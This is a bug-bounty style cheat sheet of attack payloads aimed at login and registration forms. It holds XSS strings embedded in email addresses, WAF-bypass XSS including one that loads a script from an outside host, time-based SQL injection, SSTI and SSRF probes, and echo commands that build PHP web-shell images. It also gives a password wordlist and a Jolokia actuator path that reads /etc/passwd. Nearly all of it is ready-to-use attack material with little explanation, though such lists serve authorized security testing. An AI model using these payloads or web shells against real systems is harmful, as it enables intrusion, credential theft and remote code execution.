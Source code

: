 Login and register payloads:

- valid Email payloads:
1. test+(<script>alert(0)</script>)@example.com
2. test@example(<script>alert(0)</script>).com
3. "<script>alert(0)</script>"@example.com


Sql injection:
(select(0)from(select(sleep(25)))v) --> Blind 25 seconds
/0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z/ --> Time based 10 seconds



SSTI template injection:
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

SSRF:
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
-------------------------
html injection(Can use match and replace in request body):
<u>123</u>


-------------
XSS:

https://netsec.expert/posts/xss-in-2021/

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

%3c<aa+ONLOAD+href=javasONLOADcript:promptONLOAD(1)%3e --> WAF BYPASS
<img src onerror=alt=''+document.domain> '  --> WAF Bypass

xss payload --> xss.xml:

<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>

Double quote and single quote bypass:
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//zaggeb.xSs.ht></scripT>
------
RCE payload to creating image:
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg

echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png

echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif

echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp


-------


ORWA Notes from IWCON:

Login wordlists and passwords:

password
passwd
pwd
pass
secret
ldap

Jolokia RCE:
/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/hosts

-------

DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd


